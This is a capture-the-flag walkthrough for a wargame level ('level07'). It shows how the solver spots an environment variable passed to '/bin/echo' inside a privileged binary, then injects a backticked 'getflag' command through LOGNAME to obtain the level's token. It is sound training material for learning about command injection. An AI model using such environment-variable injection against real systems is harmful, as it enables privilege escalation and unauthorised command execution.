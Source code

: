 # level07 solve

Firstly, at all, when we get logged and trying to see if we got the file we can see we have one file ` level07 `

```
$ ls
> level07
```

That's similar operation as level03. It looks like a binary file so we decide to run it.

```
$ ./level07
> level07
```

We decide to see inside the file.

```
$ cat ./level07
```

And we see some multiple line interesting. But the most curious line was `LOGNAME/bin/echo %s `

```
▒▒[▒LOGNAME/bin/echo %s
```

After some reflexion, we decide to try to see if `LOGNAME` is in machine environment.


```
$ env
> ...
> HOME=/home/user/level08
> SHLVL=4
> LOGNAME=level08
> ...
```

And it is the case, so we decide to redirect LOGNAME on getflag, because we suppose that the executable use a ` execve ` like for execute LOGNAME with the bin ` echo ` . We add ``` \` ``` for print the result of the command.

```
$ export LOGNAME=\`getflag\`
```

Trying again and...

```
$ ./level07
> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level06">previous level</a> - <a href="../../level08">next level</a>
